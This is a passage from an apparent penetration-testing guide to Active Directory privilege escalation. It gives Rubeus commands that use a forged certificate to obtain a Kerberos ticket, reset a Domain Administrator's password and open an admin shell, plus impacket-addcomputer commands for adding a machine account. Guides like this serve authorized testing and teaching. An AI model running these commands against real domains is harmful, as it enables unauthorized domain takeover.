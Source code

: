 If we create a new certificate, we can use it to impersonate the privileged user.

1. **Request Kerberos TGT (Ticket Granting Ticket).**
    
    **[Rubeus.exe](https://github.com/GhostPack/Rubeus)** is useful to do for that. For details, see [Privilege Escalation with Kerberos](/exploit/windows/active-directory/kerberos-pentesting/#privilege-escalation-with-kerberos).
    
    ```powershell
    Rubeus.exe asktgt /user:tester /enctype:aes256 /certificate:vulncert.pfx /password:password /outfile:tester.kirbi /domain:labc.example.com /dc:<ip_of_the_domain_controller>
    ```
    
    After that, we should get the TGT (.kirbi file).  
    We can gain access using the TGT by changing the password of the DA account.
    
2. **Change the Password of the DA (Domain Administrator) Account.**
    
    ```powershell
    # changepw: Change the password of the target user
    # /ticket: Specify the TGT file (.kirbi) we've generated
    # /new: New password for impersonated user
    # /targetuser: Specify the Domain Administrator account name
    Rubeus.exe changepw /ticket:tester.kirbi /new:newpass /dc:<ip_of_the_domain_controller> /targetuser:abc.example.com\<da_user_name>
    ```
    
3. **Get the Administrator’s Shell**
    
    Using **runas** command, we can gain access to the Administrator’s account.  
    Use the new password which we’ve given the previous section in prompt.
    
    ```powershell
    runas /user:abc.example.com\<da_user_name> cmd.exe
    ```

<br />

## Add Computer and PrivEsc

### 1. Add Computer to the Domain

We can use the **addcomputer ([impacket](https://github.com/SecureAuthCorp/impacket))** which is usually used for AD CS (Active Directory Certificate Services) Privilege Escalation.

```sh
impacket-addcomputer 'example.local/username:password' -method LDAPS -computer-name 'TEST$' -computer-pass 'password'
# or
impacket-addcomputer 'example.local/username:password' -dc-ip 10.0.0.1 -method LDAPS -computer-name 'TEST$' -computer-pass 'password'
# or
impacket-addcomputer 'example.local/username:password@example.com' -method LDAPS -computer-name 'TEST$' -computer-pass 'password'
```

